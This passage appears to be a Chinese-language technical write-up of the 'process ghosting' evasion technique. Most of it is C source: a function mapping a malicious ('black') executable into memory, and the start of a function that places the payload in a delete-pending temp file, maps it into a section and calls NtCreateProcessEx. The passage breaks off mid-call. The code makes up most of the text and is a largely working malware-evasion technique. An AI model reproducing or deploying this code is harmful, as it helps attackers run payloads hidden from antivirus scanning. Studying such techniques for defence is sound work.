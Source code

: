 ![](https://firewore.oss-cn-beijing.aliyuncs.com/imgs/20211105095227.png)

其中主要涉及到三个函数分别是buffer_payload、process_ghost、make_section_from_delete_pending_file。

**buffer_payload**

它的主要作用是打开black exe文件句柄，并将black exe映射进内存，但是不执行后续的启动process操作。而后将exe映射进内存中的数据以指针的形式返回。

```C
BYTE* buffer_payload(wchar_t *filename, OUT size_t &r_size) {
    HANDLE file = CreateFileW(filename, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);//获取文件handle
    if (file == INVALID_HANDLE_VALUE) {
        cout << "create file fail!\n" << endl;
    }
    HANDLE mapping = CreateFileMapping(file, 0, PAGE_READONLY, 0, 0, 0); //打开或创建文件的映射对象，返回值为新创建的文件映射handle
    if (!mapping) {
        CloseHandle(file);
        return nullptr;
        cout << "create map fail!\n" << endl;
    }
    BYTE* dllRawData = (BYTE*)MapViewOfFile(mapping, FILE_MAP_READ, 0, 0, 0);//将文件映射handle映射到进程空间
    if (dllRawData == nullptr) {
        cout << "map move fail!\n" << endl;
        CloseHandle(mapping);
        CloseHandle(file);
        return nullptr;
    }
    r_size = GetFileSize(file, 0);
    BYTE* localCopyAddress = (BYTE*)VirtualAlloc(NULL, r_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);//内存中申请文件大小的地址空间
    memcpy(localCopyAddress, dllRawData, r_size);
    UnmapViewOfFile(dllRawData);//解映射
    CloseHandle(mapping);
    CloseHandle(file);
    return localCopyAddress;

}
```

**process_ghost**

这个函数的主要作用是进行启动进程的操作。

```C

bool process_ghost(wchar_t* targetPath, BYTE* payladBuf, DWORD payloadSize)
{
    wchar_t dummy_name[MAX_PATH] = { 0 };
    wchar_t temp_path[MAX_PATH] = { 0 };
    DWORD size = GetTempPathW(MAX_PATH, temp_path);//获取temp文件路径
    GetTempFileNameW(temp_path, L"TH", 0, dummy_name);//给temp文件创建一个名称

    HANDLE hSection = make_section_from_delete_pending_file(dummy_name, payladBuf, payloadSize);//将temp文件属性设置为删除状态，并将文件映射进section
    if (!hSection || hSection == INVALID_HANDLE_VALUE) {
        return false;
    }
    HANDLE hProcess = nullptr;
    NTSTATUS status = NtCreateProcessEx(
        &hProcess,
        PROCESS_ALL_ACCESS,
        NULL,
        NtCurrentProcess(),
        PS_INHERIT_HANDLES,
        hSection,
```
